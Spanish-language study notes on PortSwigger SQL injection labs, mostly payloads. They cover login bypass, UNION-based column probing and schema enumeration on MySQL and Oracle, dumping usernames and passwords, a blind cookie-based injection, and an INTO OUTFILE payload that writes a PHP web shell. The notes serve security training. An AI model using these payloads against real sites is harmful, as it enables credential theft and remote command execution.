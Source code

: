 # SQL Intection 'PortSwigger' MySQL 

Tags: #BurpSuite #SQLI #Explotacion #Enumeracion 

```bash 
❯ burpsuite &> /dev/null & disown                    # Iniciamos el BurpSuite y lo mandamos a segundo plano
```

- **union select "<? system($_REQUEST['cmd']) ?>" into "/var/www/html/outfile"** Podemos crear un archivo llamado Outfile que contenga un cmd que nos interpretara comandos. Despues del primer ? va php

### DATABASE - TABLES - COLUMS - DATA 
Asi se conforma una base de datos

#### Lab1 SQL injection vunerability in WHERE clause allowing retrieval of hidden ***'%s'***
Estamos haciendo que nos comente el esto de la query por ende nos debe de mostrar todo el contenido visible de la pagina.
	**’or 1=1-- -    o    'or 1=1#** 
- ***-- - o #*** -> Para comentar lo que hay en la derecha y no se interprete
- or 1=1 -> Devuelve un codigo de estado exitoso TRUE 

#### Lab 2 SQL injection vulnerability allowing login bypass ***'%s'***
De los dos campos que tenemos en un panel de autenticacion, estamos haciendo que nos comente el segundo campo y por ende no tome en cuenta la password.
	**admin'-- -** 
- ***-- -***  Para comentar lo que hay en la derecha y no se interprete

#### Lab3 SQL injection UNION attack, determining the number of columns returned by the query 
A veces el ordenar columnas hace que nos salga un error, con el cual nos podriamos dar una idea, cuando no sale es ahi el numero de columnas existentes.
	**'order by 10-- -** Haremos un ordenamiento de los datos, basandonos en la decima colmuna, de ahi se reduce hasta que no nos muestre el error
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select 1,2,3-- -** 
* 1,2 -> El numero de columnas que hemos encontrado, en este caso son dos... Si fuera mas seria 1,2,3,4 etc... Si la pagina no te admite numeros, en ese caso poner NULL,NULL,NULL. 
Esto es para MySQL y Microsoft
	**'union select NULL,@@version -- -** Para saber la version de MySQL y Microsoft
	
#### Lab4 SQL injection union attack, finding a column containing text
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select NULL,'snhsb',NULL-- -** Buscar que campo es inyectable para poder ingresar funciones o comandos.
Dependiendo del campo que sea injectable, podemos colocarle diferentes cosas para que nos reporte algo. Por ejemplo:
* version() -> Podemos usar esos campos para que nos muestre diferentes cosas, en este caso la version
* database() -> Si la segunda columna es inyectable, ahi podriamos hacer que nos muestre la base de datos que esta usando
* user() -> Que me muestre que usuario esta corriendo la base de datos actual 

#### Lab5,6 SQL injection UNION attack, retrieving data from other tables and retrieving multiple values in a single column
- Para listar las bases de datos existentes
	**'union select 1,2,schema_name from information_schema.schemata -- -** Pone el resultado en forma de lista
	**'union select 1,2,*group_concat*(schema_name) from information_schema.schemata -- -** Para saber cuantas bases de datos tenemos, 
pone resultado en una sola linea, este es mas conveniente para listar el usuario y su passwd
	**'union select 1,schema_name,3 from information_schema.schemata -- -** El schema_name siempre va en el campo que es inyectable.

- Para enumerar las tablas 
	**'union select 1,2,table_name from information_schema.tables -- -** Lista las tablas de todas las bases de datos existentes
	**'union select 1,2,table_name from information_schema.tables WHERE table_schema='*DBS*'-- -** Lista las tablas de una base de datos especifica

- Para enumerar las columnas 
	**'union select 1,2,column_name from information_schema.columns WHERE table_schema='*DBS*' and table_name='*TABLENAME*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica

- Para mostrar la data con concatenaciones
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *DB.TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos (**: = 0x3a** representacion en hexadecimal) Hacemos esto si la base de datos actual no es la que contiene los datos que queremos 
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,concat(*username*,':',*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat
	**'union select 1,*username*,*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en fila siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, aqui estamos ocupando dos campos que son inyectables

#### Lab7, SQL injection attack, querying the database type and version on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,banner from v$version -- -** Para saber la version de Oracle 

#### Lab10 SQL injection attack, listing the database contents on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,owner from all_tables -- -** Primero listamos contra los propietarios
	**'union select NULL,table_name from all_tables WHERE owner='*OWNERNAME*' -- -** Miramos las tablas existentes de un propietario especifico
	**'union select NULL,column_name from all_tab_columns WHERE table_name='*TABLENAME*' -- -** Miramos las columnas existentes de un propietario especifico
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat

#### Lab11 Blind SQL injection with conditional responses
- En este caso el vulnerable es el TrackID, por lo que cuando algo es correcto nos sale en la web 'Welcome Back!'
Ademas de esto debemos de saber el nombre correcto de la DB, username, y asi nosotros por medio de un script de python3 podriamos adivinar la password.
	**Cookie: TrackingId=v54JPAcaS7lKSevV; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg** Es la original
- Para que el script funcione debemos de saber la longitud de la password y eso se hace de esta manera:
	**Cookie: TrackingId=v54JPAcaS7lKSevV' and (select 'a' from *users* where *username*='administrator' and length(*password*)>=20)='a'-- -; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg**
	* users -> DBs
	* username -> nombre de usuario valido 
	* password -> passwd que queremos encontrar
	* 20 es el tamano de la password y eso lo sabemos porque hasta ahi aun nos sigue saliendo el 'Welcome Back!'
Despues nos hacemos el script en python3 y obtenemos la password.


#### Lab12 Blind SQL injection with conditional errors
